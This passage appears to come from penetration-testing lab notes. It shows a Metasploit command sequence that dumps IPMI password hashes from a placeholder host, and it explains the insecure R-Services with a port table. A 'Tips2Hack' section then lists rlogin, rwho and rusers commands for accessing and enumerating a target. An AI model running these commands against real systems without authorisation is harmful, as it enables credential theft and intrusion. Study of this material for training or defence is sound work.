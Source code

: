 3. Metasploit Dumping Hashes
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 > set rhosts 13.13.13.13
msf6 > run
```

---

## R-Services
**R-Services are a suite of services hosted to enable remote access or issue commands between Unix hosts over TCP/IP.** Much like telnet, r-services transmit information from client to server(and vice versa.) over the network in an unencrypted format, making it possible for attackers to intercept network traffic (passwords, login information, etc.) by performing man-in-the-middle (`MITM`) attacks. R-Services mostly using ports `512, 513, 514` and only accessible via suite of programs known as `r-commands`. 
The R-commands suite contains:
- rcp (`remote copy`)
- rexec (`remote execution`)
- rlogin (`remote login`)
- rsh (`remote shell`)
- rstat
- ruptime
- rwho (`remote who`)
### Quick Overview

|Command|Service Daemon|Port|Transport Protocol|Description|
|-|-|-|-|-|
|`rcp`|`rshd`|514|TCP|Copy a file from the local system to remote (or vice versa). Works like `cp` but don't provide warning for overwriting files.|
|`rsh`|`rshd`|514|TCP|Opens a shell on remote machine without login. Relies upon trusted entries in the `/etc/hosts/equiv` and `.rhosts` files for validation|
|`rexec`|`rexecd`|512|TCP|Enables to run shell command on remote machine. Requires authentification with `username:password` or with `/etc/hosts/equiv` and `.rhosts` files |
|`rlogin`|`rlogind`|513|TCP|Enables a user log in to a remote host over the network. Unix-only. Use `/etc/hosts/equiv` and `.rhosts` files to authentification|

### Tips2Hack
1. Logging in Using Rlogin
```bash
rlogin 13.13.13.13 -l htb-student
```
2. Listing Authenticated Users Using Rwho
```bash
rwho
```
3. Listing Authenticated Users Using Rusers
```bash
rusers -al 13.13.13.13
```

---
